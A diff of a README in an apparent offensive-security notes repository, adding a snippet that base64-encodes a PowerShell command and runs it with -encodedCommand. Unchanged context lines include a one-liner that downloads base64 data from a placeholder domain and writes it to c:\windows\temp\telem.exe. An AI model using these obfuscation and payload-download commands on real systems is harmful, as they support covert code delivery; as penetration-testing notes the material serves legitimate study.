

Before and after one commit to ville87/offsec, a Markdown page: Windows/README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Windows/README.md
+++ b/Windows/README.md
@@ -50,6 +50,14 @@
   `foreach($target in (gc .\targets_http_ip.txt)){ Get-HttpStatus -Target $target -Path .\www_wordlist.txt }`
 
 ## Helpful PowerShell commands and scripts
+### Base64 encoded powershell command
+```powershell
+$command = '"test" | out-file C:\users\jdoe\desktop\psout.txt'
+$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
+$encodedCommand = [Convert]::ToBase64String($bytes)
+powershell.exe -encodedCommand $encodedCommand
+```
+
 ### File Transfer
 - Download base64 encoded files:
   `[System.IO.File]::WriteAllBytes("c:\windows\temp\telem.exe",[System.Convert]::FromBase64String((New-Object Net.Webclient).downloadstring("https://XOURDOMAIN.COM")))`
````
